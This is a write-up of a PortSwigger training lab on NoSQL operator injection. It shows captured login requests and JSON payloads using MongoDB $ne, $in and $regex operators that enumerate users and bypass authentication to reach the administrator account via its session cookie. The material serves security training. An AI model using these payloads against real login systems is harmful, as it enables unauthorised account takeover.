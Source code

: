 ```yaml
---
title: Exploiting NoSQL operator injection to bypass authentication
description: PortSwigger NoSQli Lab
---
```

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication

The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.

To solve the lab, log into the application as the `administrator` user.

You can log in to your own account using the following credentials: `wiener:peter`

## Discovery
Login with `wiener:peter`.

Login request:
```http
POST /login HTTP/2
Host: 0a3b006e03a84746800971a7006d00df.web-security-academy.net
Cookie: session=RrG2XTmOkpCeOrEZP22CDmGZWQmrqKU1
Content-Length: 40
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Not.A/Brand";v="99", "Chromium";v="136"
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a3b006e03a84746800971a7006d00df.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3b006e03a84746800971a7006d00df.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"username":"wiener","password":"peter"}
```

Response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=eZYeUK84NShEQ2ntI9kymEBuH2Z8saDU; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Testing password to confirm NoSQL injection vulnerability
```json
{
	"username":"wiener",
	"password":{
		"$ne": "invalid"
	}
}
```

Response:
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=NkwrsaHbS3JJpU8ZvsOxt8CJlTibZOmA; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Confirming testing with a valid password
```json
{
	"username":"wiener",
	"password":{
		"$ne": "peter"
	}
}
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=jwbxmzKAgQwNNoaLXE7nv0uZw0Bj4mS0; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3281
```

Testing username `administrator`
```json
{
	"username":"administrator",
	"password":{
		"$ne": "invalid"
	}
}
```

Returns `HTTP/2 200 OK` which means this username doesn't exist.

Using `$in` operator
```json
{
	"username":{
		"$in":[
			"admin",
			"ADMIN"
		]
	},
	"password":{
		"$ne": "invalid"
	}
}
```
Returns `HTTP/2 200 OK` which means these usernames doesn't exist. Add `wiener` to username to test if the operator works.

Using `$nin` 
```json
{
	"username":{
		"$nin":[
			"admin",
			"ADMIN"
		]
	},
	"password":{
		"$ne": "invalid"
	}
}
```

Returns `HTTP/2 500 Internal Server Error` which means the application is not vulnerable to `$nin` operator.

Using `$regex`

Checking username starting with `w`
```json
{
	"username":{
		"$regex": "^w"
	},
	"password":{
		"$ne": "invalid"
	}
}
```

Returns user `wiener`
```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=00Dts0zGfCMe49JNkheH9mgrflBOnMf0; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

## Exploit
Use `$regex` find username starting with `a` for admin
```json
{
	"username":{
		"$regex": "^a"
	},
	"password":{
		"$ne": "invalid"
	}
}
```

Return `HTTP/2 302 Found` found admin user `adminp5p1ieta`
```http
HTTP/2 302 Found
Location: /my-account?id=adminp5p1ieta
Set-Cookie: session=DcGjsJfPIFAvkisCC7XXUFghn5htQFxs; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Use cookie in response to set the session for admin. 
![](../../../../public/images/PS_NoSQL_20250607%20_220414.png)